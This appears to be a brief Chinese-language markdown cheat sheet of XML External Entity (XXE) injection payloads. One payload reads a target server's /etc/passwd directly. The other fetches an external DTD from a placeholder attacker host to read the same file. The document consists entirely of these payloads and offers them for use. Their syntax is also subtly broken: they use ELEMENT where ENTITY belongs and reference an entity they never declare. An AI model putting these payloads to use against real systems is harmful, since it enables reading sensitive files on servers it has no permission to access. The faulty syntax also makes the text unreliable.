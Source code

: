 # XXE_payload

---

- 读取本地文件

  ```
  <?xml version="1.0"?>   			   	
  <!DOCTYPE a[ 						
  <!ELEMENT b SYSTEM "file:///etc/passwd">  #读取目标本地文件
  ]>
  <c>&b;</c>
  ```

- 引用外部文件执行

  ```
  <?xml version="1.0"?>   			   	
  <!DOCTYPE a[ 						
  <!ELEMENT % d SYSTEM "http://IP/xxx.dtd">  #引用外部文件执行
  ]>
  <c>&b;</c>
  
  xxx.dtd内容：<!ELEMENT b SYSTEM "file:///etc/passwd">
  ```

  

  
